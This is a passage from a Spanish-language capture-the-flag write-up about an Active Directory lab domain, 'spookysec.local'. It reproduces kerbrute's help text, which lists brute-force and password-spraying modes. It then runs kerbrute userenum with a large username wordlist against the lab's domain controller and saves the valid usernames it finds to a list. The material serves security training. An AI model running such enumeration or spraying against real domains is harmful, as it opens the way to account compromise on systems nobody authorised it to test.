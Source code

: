 ```bash
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

Estos fueron los usuarios creo que si quieres tener kerbrute instalado en vez de usar un binario como yo lo hice tienes que instalarlo mediante `go` en el repositorio te explican como hacerlo

```bash
❯ ./kerbrute userenum /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -d spookysec.local --dc 10.10.220.144

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/10/23 - Ronnie Flathers @ropnop

2023/03/10 13:31:36 >  Using KDC(s):
2023/03/10 13:31:36 >  	10.10.220.144:88

2023/03/10 13:31:37 >  [+] VALID USERNAME:	svc-admin@spookysec.local
2023/03/10 13:31:37 >  [+] VALID USERNAME:	james@spookysec.local
2023/03/10 13:31:46 >  [+] VALID USERNAME:	James@spookysec.local
2023/03/10 13:31:48 >  [+] VALID USERNAME:	robin@spookysec.local
2023/03/10 13:32:09 >  [+] VALID USERNAME:	darkstar@spookysec.local
2023/03/10 13:32:20 >  [+] VALID USERNAME:	administrator@spookysec.local
2023/03/10 13:32:44 >  [+] VALID USERNAME:	backup@spookysec.local
2023/03/10 13:32:55 >  [+] VALID USERNAME:	paradox@spookysec.local
```

Vamos a agregar a los usuarios a una lista

```bash
❯ catn users.txt
svc-admin
james
robin
darkstar
administrator
backup
paradox
```
